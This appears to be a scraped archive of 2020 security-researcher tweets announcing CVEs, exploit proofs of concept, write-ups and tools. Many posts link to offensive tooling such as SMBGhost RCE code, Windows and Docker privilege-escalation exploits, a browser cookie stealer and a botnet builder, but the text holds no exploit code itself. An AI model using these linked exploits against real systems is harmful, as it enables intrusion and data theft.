<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---
# threatintelctr
**https://twitter.com/threatintelctr/status/1278338171088977921 _at Wed Jul 01 14:42:25 +0000 2020_**
<blockquote>
🚨 NEW: CVE-2020-4060 🚨 In LoRa Basics Station before 2.0.4, there is a Use After Free vulnerability that leads to memory corruption. This bug is triggered on 32-bit machines when the CUPS server responds with a me... (click for more) Severity: MEDIUM https://t.co/chhrUOrjuk
</blockquote>

* https://github.com/lorabasics/basicstation/security/advisories/GHSA-v9ph-r496-4m2j

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# yorickkoster
**https://twitter.com/yorickkoster/status/1278252429289684998 _at Wed Jul 01 09:01:42 +0000 2020_**
<blockquote>
Now that the cat is out of the bag, I have made my BitDefender VPN LPE proof of concept public:

https://t.co/RCaf6bDflX

Great job describing your research approach for CVE-2020-12828 @0xsha 👍
</blockquote>

* https://gist.github.com/ykoster/b627130ea1ec1e4d5a1b996092077805

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1278192608775454722 _at Wed Jul 01 05:04:00 +0000 2020_**
<blockquote>
Microsoft has releases an emergency security update on Monday to fix two RCE bugs in the Windows Codecs Library

-Update delivered through the Windows Store
-No user interaction needed
-CVE-2020-1425 &amp; CVE-2020-1457

https://t.co/RyA1yhmU1m https://t.co/3auScXsswZ
</blockquote>

* https://www.zdnet.com/article/microsoft-releases-emergency-security-update-to-fix-two-bugs-in-windows-codecs/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>22</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---
# matrosov
**https://twitter.com/matrosov/status/1278115699777392640 _at Tue Jun 30 23:58:23 +0000 2020_**
<blockquote>
#efiXplorer v1.0 [REcon Editon] released! We try to make UEFI RE easier, current version of IDA plugin supports:

- EFI Protocols and Boot/Runtime Services identification
- EFI GUID's recogniton

Stay tuned more features coming!
https://t.co/siZ88grDgI

@yeggorv @p41ll @isciurus
</blockquote>

* https://github.com/binarly-io/efiXplorer/releases/tag/v1.0

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>257</code></td>
</tr></table>

---
# misaelban
**https://twitter.com/misaelban/status/1277592819897688065 _at Mon Jun 29 13:20:39 +0000 2020_**
<blockquote>
#metasploit module for #Vulnerability #CVE-2020-8515 Unauthenticated RCE in #Draytek  #Vigor 2960, 3900 &amp; 300 #hacking &amp; #Pentesting https://t.co/d4mnNwCcq1 @metasploit @rapid7 #CyberSecurity #infosec
</blockquote>

* https://github.com/skullarmy/web-exploits/blob/master/cve-2020-8515/draytek_unauth_code_exec.rb

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---
# ptrYudai
**https://twitter.com/ptrYudai/status/1277449435186790401 _at Mon Jun 29 03:50:53 +0000 2020_**
<blockquote>
供養
https://t.co/yNnFZTdsR8
</blockquote>

* https://gist.github.com/ptr-yudai/de039d45ea9b1befd5279fe24ec50183

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1276927201645125639 _at Sat Jun 27 17:15:43 +0000 2020_**
<blockquote>
CVE-2020-10665 Docker Desktop Local Privilege Escalation  https://t.co/x2tFjum5dB  #Pentesting #Windows #ReverseShell #CyberSecurity #Infosec https://t.co/xRGneYxkC2
</blockquote>

* https://github.com/spaceraccoon/CVE-2020-10665

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1276712486280982529 _at Sat Jun 27 03:02:31 +0000 2020_**
<blockquote>
GitHub - V1n1v131r4/Wing-FTP-Server-6.3.8---Remote-Code-Execution: This PoC explain how to exploit Wing FTP Server 6.3.8 to get Remote Code Execution - https://t.co/qYKumNVDje
</blockquote>

* https://github.com/V1n1v131r4/Wing-FTP-Server-6.3.8---Remote-Code-Execution

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>40</code></td>
</tr></table>

---
# i_bo0om
**https://twitter.com/i_bo0om/status/1276503780687777792 _at Fri Jun 26 13:13:12 +0000 2020_**
<blockquote>
Apache Tomcat RCE by deserialization (CVE-2020-9484) 

https://t.co/jvURLAvdVQ
</blockquote>

* https://www.redtimmy.com/java-hacking/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---
# movaxbx2
**https://twitter.com/movaxbx2/status/1276461577395335170 _at Fri Jun 26 10:25:30 +0000 2020_**
<blockquote>
Microsoft Windows LNK Remote Code Execution Vulnerability – CVE-2020-1299 https://t.co/QQ6OtWE04U
</blockquote>

* https://movaxbx.ru/2020/06/26/microsoft-windows-lnk-remote-code-execution-vulnerability-cve-2020-1299/

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>249</code></td>
<td>Favorites: <code>444</code></td>
</tr></table>

---
# sw33tLie
**https://twitter.com/sw33tLie/status/1276267096633225217 _at Thu Jun 25 21:32:42 +0000 2020_**
<blockquote>
Also, if you find /jolokia you may be able to achieve a RCE as well https://t.co/iQjozuvnFe
</blockquote>

* https://github.com/ba0zi/Spring-Boot-Actuator-Exploit

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>42</code></td>
</tr></table>

---
# pedrib1337
**https://twitter.com/pedrib1337/status/1276156029210951681 _at Thu Jun 25 14:11:21 +0000 2020_**
<blockquote>
Here's the exploit and write-up of another Pwn2Own Tokyo 2019 win with @RabbitPro: Netgear R6700 upnpd RCE!
https://t.co/DT202rJjzO

Missing those good times in Tokyo!

Video: https://t.co/AfFvPUsKQl
</blockquote>

* https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Tokyo_2019/tokyo_drift/tokyo_drift.md
* https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Tokyo_2019/tokyo_drift/tokyo_drift.mp4

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>142</code></td>
</tr></table>

---
# gannimo
**https://twitter.com/gannimo/status/1276141712277110784 _at Thu Jun 25 13:14:28 +0000 2020_**
<blockquote>
Quick permission comparison for different Android apps. #SwissCovid only asks for permissions related to digital contact tracing, nothing more. Full source code: https://t.co/I7xmiPOB3n https://t.co/wvGRVmiRTP
</blockquote>

* https://github.com/DP-3T/dp3t-app-android-ch

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>50</code></td>
<td>Replies: <code>22</code></td>
<td>Retweets: <code>412</code></td>
<td>Favorites: <code>762</code></td>
</tr></table>

---
# spaceraccoonsec
**https://twitter.com/spaceraccoonsec/status/1276123691156254720 _at Thu Jun 25 12:02:51 +0000 2020_**
<blockquote>
Wrote the first public exploit of CVE-2020-10665 Docker Desktop Local Privilege Escalation! It was challenging picking up C++ as well as multiple exploit stages (hard link spraying, DLL overwrite, printer API call) but learned a lot :) https://t.co/zMcO3keyfc https://t.co/nqSUTbQT5k
</blockquote>

* https://github.com/spaceraccoon/CVE-2020-10665

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>180</code></td>
<td>Favorites: <code>596</code></td>
</tr></table>

---
# EyalItkin
**https://twitter.com/EyalItkin/status/1275835583198347265 _at Wed Jun 24 16:58:01 +0000 2020_**
<blockquote>
In his latest blog, @oct0xor confirms our attribution of Magniber's LPE exploit (probably CVE-2018-8641) to Volodya.

This is just 1 of 11(!) LPE exploits by this actor that we've analyzed. More details in the upcoming VB2020 talk by @megabeets_ and I.

https://t.co/Cs8o0WDn9J
</blockquote>

* https://securelist.com/magnitude-exploit-kit-evolution/97436/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# standa_t
**https://twitter.com/standa_t/status/1275810331445493760 _at Wed Jun 24 15:17:41 +0000 2020_**
<blockquote>
It was all fun and game until I discover my AMD HV was unstable on a device without a serial port. I ended up with debugging it through DMA with PCILeech (thx @UlfFrisk for the project)

But, can anyone suggest what else I could do if DMA is not an option?
https://t.co/n8L23ySkW8 https://t.co/4FgzhiZwqW
</blockquote>

* https://github.com/tandasat/HelloAmdHvPkg/issues/1

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>62</code></td>
</tr></table>

---
# QuoSecGmbH
**https://twitter.com/QuoSecGmbH/status/1275711712440786946 _at Wed Jun 24 08:45:48 +0000 2020_**
<blockquote>
We have a new update for grap, our a tool to match binaries at the assembly code level, matching control flow graphs.

- python3
- embedded pattern editor for the #IDAPro plugin
- easier pattern generation for whole functions

https://t.co/eIDT7KscVh https://t.co/ng64b1uGMV
</blockquote>

* https://github.com/QuoSecGmbH/grap

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>45</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1275091511852404736 _at Mon Jun 22 15:41:21 +0000 2020_**
<blockquote>
SecretFinder : A python script for find sensitive data (apikeys, accesstoken,jwt,..) and search anything on javascript files : https://t.co/nA3MNZpJ3x credits @m4ll0k2 https://t.co/HyZP1R3sDi
</blockquote>

* https://github.com/m4ll0k/SecretFinder

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>85</code></td>
<td>Favorites: <code>177</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1275089336266928128 _at Mon Jun 22 15:32:42 +0000 2020_**
<blockquote>
hmmcookies : Grab cookies from Firefox, Chrome, Opera using a shortcut file (bypass UAC) : https://t.co/nxuL1uMJ1u credits @linux_choice https://t.co/92nv3GRZot
</blockquote>

* https://github.com/thelinuxchoice/hmmcookies

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>55</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1275088770719641600 _at Mon Jun 22 15:30:27 +0000 2020_**
<blockquote>
OSS-Fuzz : Continuous fuzzing of open source software : https://t.co/gr8qYoTSdn https://t.co/gaBIhN6KTN
</blockquote>

* https://github.com/google/oss-fuzz

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>100</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1275081920934748160 _at Mon Jun 22 15:03:14 +0000 2020_**
<blockquote>
Introducing Axiom - The Dynamic Pwnstation Orchestrator for Red Team &amp; Bug Bounty : https://t.co/WwOTZFZ26p

axiom : A dynamic infrastructure toolkit for red teamers and bug bounty hunters! : https://t.co/fgqFydPM3W  credits @pry0cc https://t.co/EDeS9MKx6w
</blockquote>

* https://0x00sec.org/t/introducing-axiom-the-dynamic-pwnstation-orchestrator-for-red-team-bug-bounty/21824
* https://github.com/pry0cc/axiom

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>41</code></td>
<td>Favorites: <code>105</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1275079360538537991 _at Mon Jun 22 14:53:04 +0000 2020_**
<blockquote>
Memory Hunting with Volatility (mindmap) : https://t.co/vrJRFebcFa credits @christophetd

Windows Event Logs : https://t.co/A3jp5gX7Ux https://t.co/fgJsxkiD5g
</blockquote>

* https://github.com/christophetd/hunting-mindmaps/blob/master/pdf/memory-hunting.pdf
* https://github.com/christophetd/hunting-mindmaps/blob/master/pdf/windows-basic-event-logs.pdf

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>221</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1275072158222348290 _at Mon Jun 22 14:24:26 +0000 2020_**
<blockquote>
Frida Boot - A binary instrumentation workshop, with Frida, for beginners! : https://t.co/ByaMIYsBhC
 
Slides : https://t.co/CR8rc7zEwq 

Video : https://t.co/ktkfDApBRj  credits : @leonjza
</blockquote>

* https://github.com/leonjza/frida-boot
* https://github.com/leonjza/frida-boot/blob/master/slides/frida-boot%20%F0%9F%91%A2.pdf
* https://www.youtube.com/watch?v=CLpW1tZCblo

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>78</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1275070318973816836 _at Mon Jun 22 14:17:08 +0000 2020_**
<blockquote>
The Bug Hunter's Methodology (v4 Recon Edition): https://t.co/728N8KYIm3  credits @Jhaddix
</blockquote>

* https://drive.google.com/file/d/1aG_qqRvNW-s5_8vvPk5rJiMSMeNL2uY9/view

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>60</code></td>
<td>Favorites: <code>153</code></td>
</tr></table>

---
# _sh286
**https://twitter.com/_sh286/status/1274087591030059009 _at Fri Jun 19 21:12:07 +0000 2020_**
<blockquote>
CVE-2020-8163 - Remote code execution of user-provided local names in Rails &lt; 5.0.1 (PoC)

https://t.co/xqjWULUqaC
</blockquote>

* https://github.com/sh286/CVE-2020-8163

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>16</code></td>
</tr></table>

---
# ptracesecurity
**https://twitter.com/ptracesecurity/status/1273555774111993856 _at Thu Jun 18 09:58:52 +0000 2020_**
<blockquote>
LPE for CVE-2020-1054 targeting Windows 7 x64  https://t.co/Bf7A4bUDSG  #Pentesting #Windows7 #CyberSecurity #Infosec https://t.co/Oox3FtsiYu
</blockquote>

* https://github.com/0xeb-bp/cve-2020-1054

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>27</code></td>
</tr></table>

---
# K3vinLuSec
**https://twitter.com/K3vinLuSec/status/1273413397371969536 _at Thu Jun 18 00:33:07 +0000 2020_**
<blockquote>
Pwn BlueFrag: CVE-2020-0022 RCE Exploit For Android 8.0-9.0, many thanks to https://t.co/oqKLq9X265. Debugging all details step by step with GDB is so much fun.
</blockquote>

* https://insinuator.net/2020/04/cve-2020-0022-an-android-8-0-9-0-bluetooth-zero-click-rce-bluefrag/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>129</code></td>
<td>Favorites: <code>276</code></td>
</tr></table>

---
# thezdi
**https://twitter.com/thezdi/status/1273275586216157185 _at Wed Jun 17 15:25:30 +0000 2020_**
<blockquote>
A deep look at CVE-2020-1181: RCE in #SharePoint through Web Parts. An anonymous researcher sent this to us and #Microsoft patched it last week. Includes step-by-step PoC. https://t.co/YmVUFmMG1y
</blockquote>

* https://bit.ly/37CAHwp

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>114</code></td>
<td>Favorites: <code>238</code></td>
</tr></table>

---
# gweeperx
**https://twitter.com/gweeperx/status/1273187803707432961 _at Wed Jun 17 09:36:41 +0000 2020_**
<blockquote>
Exploit code and write-up for Windows Denial of Service Vulnerability (CVE-2020-1283)

Don't ask me about MS' description :-)

https://t.co/yw7ctlAGVy
-------
#bug #Microsoft #Windows #0day #exploit #vulnerability #DOS #BSoD #RedyOpsLabs #redteam #pentest #infosec #CVE #bugbounty
</blockquote>

* https://labs.redyops.com/index.php/2020/04/27/dos-via-arbitrary-folder-creation/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>27</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1273061064800743426 _at Wed Jun 17 01:13:04 +0000 2020_**
<blockquote>
[PoC] CVE-2020-1054 LPE for Windows 7x64

Install Rust if you need it https://t.co/h2GshGTqdF

Compile the code:

cargo build --release

Copy the .exe from target/release/ to target and execute.

https://t.co/ukGHYDvY3k https://t.co/RIflWNsna5
</blockquote>

* https://www.rust-lang.org/learn/get-started
* https://github.com/0xeb-bp/cve-2020-1054

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---
# wugeej
**https://twitter.com/wugeej/status/1273055311637516288 _at Wed Jun 17 00:50:13 +0000 2020_**
<blockquote>
CVE-2020-1281 Micropatch is Available for MS Windows OLE Remote Code Execution Vulnerability (CVE-2020-1281)

[Proof Of Concept]
https://t.co/5NtP9c0LAS https://t.co/9PFkuiLq6a
</blockquote>

* https://github.com/guhe120/Windows-EoP/tree/master/CVE-2020-1281

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>10</code></td>
</tr></table>

---
# jeffball55
**https://twitter.com/jeffball55/status/1272671709569724417 _at Mon Jun 15 23:25:55 +0000 2020_**
<blockquote>
We just published a blog and accompanying exploit for a Netgear pre-auth RCE vulnerability in 79 devices and 758 firmware images that existed since 2007. Don't you just love 1996 a style exploit dev, no pesky stack cookies/PIE.

https://t.co/FmmmtWWlkM

https://t.co/vRNDGx0m0m
</blockquote>

* https://blog.grimm-co.com/2020/06/soho-device-exploitation.html?m=1
* https://github.com/grimm-co/NotQuite0DayFriday/tree/master/2020.06.15-netgear

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>157</code></td>
<td>Favorites: <code>369</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1272557144223518721 _at Mon Jun 15 15:50:40 +0000 2020_**
<blockquote>
BYOB : Build Your Own Botnet : https://t.co/YO8SPFCiTh

Details : https://t.co/mmlClj30M4 https://t.co/aikhap8TXK
</blockquote>

* https://github.com/malwaredllc/byob
* https://perception-point.io/resources/research/byob-build-your-own-botnet-in-action/

<table><tr>
<td></td>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>188</code></td>
<td>Favorites: <code>444</code></td>
</tr></table>

---
# pentest_swissky
**https://twitter.com/pentest_swissky/status/1272209660662239233 _at Sun Jun 14 16:49:54 +0000 2020_**
<blockquote>
Remote Code Execution POC for CVE-2020-0796 / "SMBGhost" https://t.co/dylU1oSop5
</blockquote>

* http://github.com/ZecOps/CVE-2020-0796-RCE-POC

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1271806609899962371 _at Sat Jun 13 14:08:19 +0000 2020_**
<blockquote>
nodejsscan : a static security code scanner for Node.js applications : https://t.co/Dra50JXbEJ cc @ajinabraham

libsast : a generic SAST library for writing your own static analyzer : https://t.co/3DDoa1eSHm https://t.co/6bZCRbwTty
</blockquote>

* https://github.com/ajinabraham/nodejsscan
* https://github.com/ajinabraham/libsast

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>59</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---
# buffaloverflow
**https://twitter.com/buffaloverflow/status/1271776171080982528 _at Sat Jun 13 12:07:22 +0000 2020_**
<blockquote>
Here is a CNA script for abusing the print spooler named pipe impersonation trick by @itm4n 

Useful to get SYSTEM with only SeImpersonatePrivilege and can be used as an alternative to getsystem.

Came in handy recently and wanted to share the ❤️

https://t.co/7fM3LV9sEo
</blockquote>

* https://github.com/rxwx/spoolsystem

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>130</code></td>
<td>Favorites: <code>322</code></td>
</tr></table>

---
# R3dF09
**https://twitter.com/R3dF09/status/1271485928989528064 _at Fri Jun 12 16:54:03 +0000 2020_**
<blockquote>
Demo of #EvilPrinter (CVE-2020-1300). Remote SYSTEM shell with just one connection attempt.
Also LPE and Sandbox Escape from Edge renderer on all modern Windows versions. https://t.co/VToEqCAAtb
</blockquote>

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>288</code></td>
<td>Favorites: <code>659</code></td>
</tr></table>

---
# NationalCyberS1
**https://twitter.com/NationalCyberS1/status/1271431917825437696 _at Fri Jun 12 13:19:25 +0000 2020_**
<blockquote>
SMBGhost_RCE_PoC:-- #RCE PoC for #CVE-2020-0796 "SMBGhost"

#Download #Link:-

https://t.co/9c9j4MEbE6

#CyberSec #cybersecurity #infosec #infosecurity #informationsecurity #Pentesting #informationtechnology #bugbounty #ethicalhacking #NSEC https://t.co/vRaOHQwvwX
</blockquote>

* https://github.com/chompie1337/SMBGhost_RCE_PoC

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---
# gweeperx
**https://twitter.com/gweeperx/status/1271146453881274368 _at Thu Jun 11 18:25:06 +0000 2020_**
<blockquote>
In case you missed it, the exploit code and Write-up for Symantec Endpoint Protection (SEP) 14.2 RU2 EoP (CVE-2020-5837) is here:

https://t.co/Y3AFuqXl1E

#Symantec #0day #exploit #vulnerability #EoP #RedyOpsLabs #cybersecurity #infosec #bugbounty #redteam #SEP #SEPM
</blockquote>

* https://labs.redyops.com/index.php/2020/04/27/symantec-endpoint-protection-sep-14-2-eop-via-arbitrary-write/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>46</code></td>
<td>Favorites: <code>73</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1271100909498449930 _at Thu Jun 11 15:24:07 +0000 2020_**
<blockquote>
crydroid : Android Crypter/Decrypter source code for researchers : https://t.co/pM3C6fBQ3W credits @linux_choice https://t.co/Xi08xzWZwK
</blockquote>

* https://github.com/thelinuxchoice/crydroid

<table><tr>
<td></td>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---
# binitamshah
**https://twitter.com/binitamshah/status/1271054792668766209 _at Thu Jun 11 12:20:52 +0000 2020_**
<blockquote>
stegcloak : Hide secrets with invisible characters in plain text securely using passwords : https://t.co/LLIXMdXUMh https://t.co/GN0GoJ7Tnl
</blockquote>

* https://github.com/kurolabs/stegcloak

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>52</code></td>
<td>Favorites: <code>133</code></td>
</tr></table>

---
# VDIHacker
**https://twitter.com/VDIHacker/status/1271044690264145920 _at Thu Jun 11 11:40:43 +0000 2020_**
<blockquote>
Citrix vulnerability for Workspace App for Windows Only with bad file permissions that can allow malicious DLLs or EXEs to be executed. No RCE but definitely something you want to patch. https://t.co/6m9flhe4da
CVE-2020-13884
CVE-2020-13885
</blockquote>

* https://support.citrix.com/article/CTX275460

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---
# fabsx00
**https://twitter.com/fabsx00/status/1270770818432327681 _at Wed Jun 10 17:32:27 +0000 2020_**
<blockquote>
We are working a lot on documentation for Ocular/Joern these days. Today, my article about our syntax-tree traversal language goes live :) https://t.co/A9Q1EJIEnZ - all works with open-source Joern (https://t.co/yl30CRsoRp)
</blockquote>

* https://docs.shiftleft.io/core-concepts/c-syntaxtree
* https://github.com/ShiftLeftSecurity/joern

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>49</code></td>
</tr></table>

---
# guhe120
**https://twitter.com/guhe120/status/1270491067549224960 _at Tue Jun 09 23:00:49 +0000 2020_**
<blockquote>
I have 16 bugs fixed in Microsoft's June security update, some are RCE, some are LPE, but this one is a little bit different, it's a buffer overflow in RPC marshalling for both RCE and LPE: 
https://t.co/83VI0nTjnl
</blockquote>

* https://github.com/guhe120/Windows-EoP/blob/master/CVE-2020-1281/CVE-2020-1281.pdf

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>299</code></td>
<td>Favorites: <code>765</code></td>
</tr></table>

---
# campuscodi
**https://twitter.com/campuscodi/status/1270483058496585728 _at Tue Jun 09 22:29:00 +0000 2020_**
<blockquote>
Technical write-up for SMBleedingGhost (CVE-2020-1206), a pre-auth info disclosure in SMBv3: https://t.co/3gwcYOFGmw

Technical write-up for SMBLost (CVE-2020-1206), a post-auth RCE in SMBv1: https://t.co/ftKjcGFyX9 https://t.co/FqYZYp23yQ
</blockquote>

* https://blog.zecops.com/vulnerabilities/smbleedingghost-writeup-chaining-smbleed-cve-2020-1206-with-smbghost/
* https://airbus-cyber-security.com/diving-into-the-smblost-vulnerability-cve-2020-1301/

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>32</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1270477054954188802 _at Tue Jun 09 22:05:08 +0000 2020_**
<blockquote>
GitHub - ZecOps/CVE-2020-0796-RCE-POC: CVE-2020-0796 Remote Code Execution POC - https://t.co/5Gmtv1Zpv0
</blockquote>

* https://github.com/ZecOps/CVE-2020-0796-RCE-POC/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---
# cyb3rops
**https://twitter.com/cyb3rops/status/1270461568900358144 _at Tue Jun 09 21:03:36 +0000 2020_**
<blockquote>
CVE-2020-1301 | Windows SMB Remote Code Execution Vulnerability

- all Windows versions affected

https://t.co/dNZfQrSgPv https://t.co/0hWG6m8EqU
</blockquote>

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1301

<table><tr>
<td></td>
</tr></table>
<table><tr>
<td>Quotes: <code>23</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>398</code></td>
<td>Favorites: <code>712</code></td>
</tr></table>

---
# TheHackersNews
**https://twitter.com/TheHackersNews/status/1270454668095782919 _at Tue Jun 09 20:36:11 +0000 2020_**
<blockquote>
SMBleed — A new security vulnerability (CVE-2020-1206) affects Windows SMBv3 protocol.

Details + PoC: https://t.co/DcF5pumvvM

An unauthenticated attacker (client/server) can also combine it with the "wormable" SMBGhost flaw to achieve RCE attacks.

#infosec #cybersecurity https://t.co/lTOx5uP7l6
</blockquote>

